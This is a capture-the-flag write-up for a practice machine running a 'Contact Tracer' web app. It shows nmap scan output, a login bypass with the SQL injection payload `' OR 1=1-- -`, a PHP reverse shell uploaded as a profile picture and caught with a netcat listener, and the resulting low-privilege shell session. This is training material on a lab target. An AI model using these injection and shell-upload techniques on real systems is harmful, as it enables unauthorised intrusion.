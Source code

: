 ![image](https://user-images.githubusercontent.com/63084488/135784017-2f2ff112-07cb-48a2-bc8d-00ac87d08961.png)


```bash
Nmap scan report for 10.10.235.17
Host is up, received echo-reply ttl 63 (0.22s latency).
Scanned at 2021-10-04 06:17:54 +04 for 27s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 27:1d:c5:8a:0b:bc:02:c0:f0:f1:f5:5a:d1:ff:a4:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA1Xdw3dCrCjetmQieza7pYcBp1ceBvVB6g1A/OU+bqoRSEfnKTHP0k5P2U1BbeciJTqflslP3IHh+py4jkWTkzbU80Mxokn2Kr5Qa5GKgrme4Q6GfQsQeeFpbLlIHs+eEBnCLY/J03iddkt6eukd3VwZuRXHnEHl7G6Y1f0IEEzProg15iAtUTbS8OwPx+ZwdvXfJTWujUS+OzLLjQw5wPewCEK+TJHVM02H+5sO+dYBMC9rgiEnPe5ayP+nupAXMNYB9/p/gO3nj5h33SokY3RkXMFsijUJpoBnsDHNgo2Q41j9AB4txabzUQVFql30WO8l8azO4y/fWYYtU8YCn
|   256 ce:f7:60:29:52:4f:65:b1:20:02:0a:2d:07:40:fd:bf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGjTYytQsU83icaN6V9H1Kotl0nKVpR35o6PtyrWy9WjljhWaNr3cnGDUnd7RSIUOiZco3UL5+YC31sBdVy6b6o=
|   256 a5:b5:5a:40:13:b0:0f:b6:5a:5f:21:60:71:6f:45:2e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOHVz0M8zYIXcw2caiAlNCr01ycEatz/QPx1PpgMZqZN
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Coronavirus Contact Tracer
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.39 - 3.2 (86%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=10/4%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=615A646D%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10E%TI=Z%II=I%TS=A)
OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)
WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
ECN(R=Y%DF=Y%TG=40%W=F507%O=M505NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 40.455 days (since Tue Aug 24 19:23:17 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   167.40 ms 10.8.0.1
2   224.38 ms 10.10.235.17

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 06:18
Completed NSE at 06:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 06:18
Completed NSE at 06:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 06:18
Completed NSE at 06:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.28 seconds
           Raw packets sent: 85 (7.328KB) | Rcvd: 46 (11.520KB)
```
When trying to visit the port 80 we get a host name contracttracer.thm. 
![image](https://user-images.githubusercontent.com/63084488/135784418-2af0b174-6f3e-4c8f-9ae0-d3793c0268be.png)

add it to /etc/hosts file.

we get 
![image](https://user-images.githubusercontent.com/63084488/135784606-ba6a37d4-7fae-4800-b082-ed7515bd7f15.png)

admin panel.
![image](https://user-images.githubusercontent.com/63084488/135784797-f8fc1423-42de-4868-a7f2-6fa0b284e089.png)

using some basic sql injections `' OR 1=1-- -` on the login page and we are able to login.
![image](https://user-images.githubusercontent.com/63084488/135785135-432cb9a3-d645-46a4-a1dc-5bd733ebdbed.png)

after looking through the site we can see there is chance to update the profile picture. so lets try to upload php reverse shell.
then try loging out and log back in to load the profile picture.
this will give us the shell.

set up a listerner using netcat on port 9001

```bash
Connection received on 10.10.235.17 46208
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:51:20 up 38 min,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (1027): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```

we can see too users on home directory . But we dont have the premission inside the directory.
```bash
cd /home
sh-4.4$ ls -la
ls -la
total 16
drwxr-xr-x  4 root   root   4096 May 10 23:47 .
drwxr-xr-x 24 root   root   4096 Jul 23 15:23 ..
drwxr-x---  6 cyrus  cyrus  4096 Jul 30 10:50 cyrus
drwxr-x---  5 maxine maxine 4096 May 11 04:25 maxine
sh-4.4$ cd cyrus
cd cyrus
sh: cd: cyrus: Permission denied
sh-4.4$ cd maxine
cd maxine
sh: cd: maxine: Permission denied
sh-4.4$ 
```


